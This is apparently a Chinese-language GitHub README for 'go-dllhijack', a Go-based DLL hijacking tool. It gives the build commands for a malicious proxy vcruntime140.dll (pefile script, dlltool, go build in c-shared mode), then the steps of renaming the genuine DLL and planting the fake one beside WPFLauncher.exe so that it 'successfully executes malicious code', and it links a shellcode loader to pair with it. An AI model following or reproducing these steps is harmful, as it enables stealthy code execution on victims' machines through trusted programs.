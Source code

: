 # go-dllhijack
基于go的简单劫持方法

在使用前请确保你系统上有GoLang python MinGW

以vcruntime140.dll为例
```sh
git clone https://github.com/famei/go-dllhijack
pip install pefile
python def.py vcruntime140.dll
```
会得到以下输出
![](https://raw.githubusercontent.com/famei/go-dllhijack/main/def.png)
将输出的内容复制到win.def内

新建一个bat脚本
```bat
dlltool --output-exp win.exp --input-def win.def
set GOOS=windows
set GOARCH=386
set CGO_ENABLED=1
go build -buildmode=c-shared -o vcruntime140.dll -ldflags="-extldflags=-Wl,{文件夹绝对路径}\win.exp -s -w"
```
会得到一个vcruntime140.dll文

将正常的vcruntime140.dll重命名为_vcruntime140.dll

将恶意的vcruntime140.dll和_vcruntime140.dl放在同一目录

这里用WPFLauncher.exe作为演示

双击WPFLauncher.exe程序正常运行 恶意代码被成功执行

![](https://raw.githubusercontent.com/famei/go-dllhijack/main/WPFLauncher.png)

使用此go文件配合劫持即可加载shellcode
[https://github.com/Ne0nd0g/go-shellcode/tree/master/cmd/UuidFromString](https://github.com/Ne0nd0g/go-shellcode/tree/master/cmd/UuidFromString)


#参考文章
#[golang实现dll恶意劫持转发](https://www.cnblogs.com/Akkuman/p/15339195.html#def-%E5%92%8C-exp-%E6%96%87%E4%BB%B6)


